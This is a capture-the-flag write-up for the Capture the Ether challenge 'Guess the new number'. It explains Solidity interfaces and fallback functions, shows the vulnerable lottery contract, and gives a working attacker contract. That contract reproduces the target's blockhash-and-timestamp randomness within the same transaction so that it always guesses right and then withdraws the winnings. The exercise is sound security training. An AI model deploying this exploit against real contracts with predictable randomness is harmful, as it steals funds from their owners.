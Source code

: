 # Guess the new number

## Required Concepts

This puzzle borrowed many concepts from prior challenges. The puzzle generates a new ```answer``` value each time a guess is made by calling the ```guess``` function. With the source file we are able to determine the source of the puzzle's entropy. This entropy is a result of the same hashed values observed in ```Guess the random number```. The only difference is that this answer value isn't a static value anymore.

To solve this puzzle, we will write a solidity contract that has the ability to interface and send messages to our challenge contract. This way, we will be able to generate a value at the same time we make our function call using the same sources of entropy as our target contract.

A Solidity ```interface``` is an abstract contract that is included for the Solidity compiler. It includes functions without their bodies so that other contracts can instantiate the the interfaced contract and call its functions. We can denote an interface by replacing the ```contract``` declaration key word with ```interface```.

For a contract to receive ```ether```, it must have a ```fallback function``` that has a ```payable``` modifier. A ```fallback function``` is a nameless function that has no arguments. Our solution to this puzzle will incorporate a ```fallback function```. For more information, read the docs: https://solidity.readthedocs.io/en/v0.4.21/contracts.html?highlight=fallback%20function

## Challenge

Source: https://capturetheether.com/challenges/lotteries/guess-the-new-number/

>The number is now generated on-demand when a guess is made.

```
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Solution

The following Solidity contract can be interpreted as our 'attacking' contract:

```
pragma solidity ^0.4.24;

// recreate hollow version of the contract and function to interact with
// so no errors show up in remix and so that it will compile.
interface GuessTheNewNumberChallenge {
    function guess(uint8 n) public payable;
}

contract pull {
    address owner;

    // instantiate
    GuessTheNewNumberChallenge public guessChallenge;

    // establish ownership of attack contract at deployment transaction
    constructor() public {
        owner = msg.sender;
    }

    // step 1: find contract address of vulnerable contract and input here
    function GuessTheNewNumberChallengePull(address _guessChal) public {
        guessChallenge = GuessTheNewNumberChallenge(_guessChal);
    }

    // step 2: send 1 ether with this transaction
    // function has to be payable to allow us to add msg.value to the txn
    // ()() where first parenthesis is msg.value and second is (arg1, arg2, etc)
    // https://ethereum.stackexchange.com/questions/9705/how-can-you-call-a-payable-function-in-another-contract-with-arguments-and-send
    function pullGuess() public payable {
        uint8 n = uint8(keccak256(blockhash(block.number - 1), now));
        guessChallenge.guess.value(msg.value)(n);
    }

    // step 4: withdraw funds from pull contract
    function withdraw() public {
        require(owner == msg.sender);
        msg.sender.transfer(address(this).balance);
    }

    // step 3: funds are automatically sent to
    // fallback function from vulnerable contract
    function() public payable {

    }

}
```
